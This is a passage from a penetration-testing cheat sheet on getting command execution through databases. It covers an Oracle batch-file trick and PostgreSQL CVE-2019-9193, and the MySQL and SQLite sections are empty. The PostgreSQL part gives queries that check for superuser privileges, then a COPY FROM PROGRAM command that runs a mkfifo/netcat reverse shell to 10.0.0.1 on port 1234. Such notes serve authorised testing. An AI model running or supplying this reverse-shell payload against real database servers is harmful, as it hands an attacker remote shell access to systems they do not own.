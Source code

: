 Now, just call your batch file with the following command:

```plsql
SELECT * from EXTT;
```

{% hint style="info" %}
The terminal will start to display error messages that the system cannot match the table and invoked file but, in this case, it is not important, as the main objective was to open the executable file, which you have achieved.
{% endhint %}
{% endtab %}

{% tab title="PostgreSQL" %}
**CVE-2019–9193** allow us to run system commands on Linux or Windows using the `PROGRAM` parameter.

First, we have to be **super user** or member of the **pg\_execute\_server\_program** group:

```sql
#Check if we are SuperUser
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;

#Check if we are member of pg_execute_server_program
\du+
SELECT usename AS role_name,CASE WHEN usesuper AND usecreatedb THEN CAST('superuser, create database' AS pg_catalog.text) WHEN usesuper THEN CAST('superuser' AS pg_catalog.text) WHEN usecreatedb THEN CAST('create database' AS pg_catalog.text) ELSE CAST('' AS pg_catalog.text) END role_attributes FROM pg_catalog.pg_user ORDER BY role_name desc;
```

Run arbitrary commands:

```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f';
```
{% endtab %}

{% tab title="MySQL" %}
```sql
```
{% endtab %}

{% tab title="SQLite" %}
```sql
```
{% endtab %}
{% endtabs %}



## Resources

{% embed url="https://github.com/SofianeHamlaoui/Pentest-Notes/blob/master/Security_cheatsheets/databases/sqlserver/3-command-execution.md" %}

{% embed url="https://www.netspi.com/blog/technical-blog/adversary-simulation/attacking-sql-server-clr-assemblies/" %}
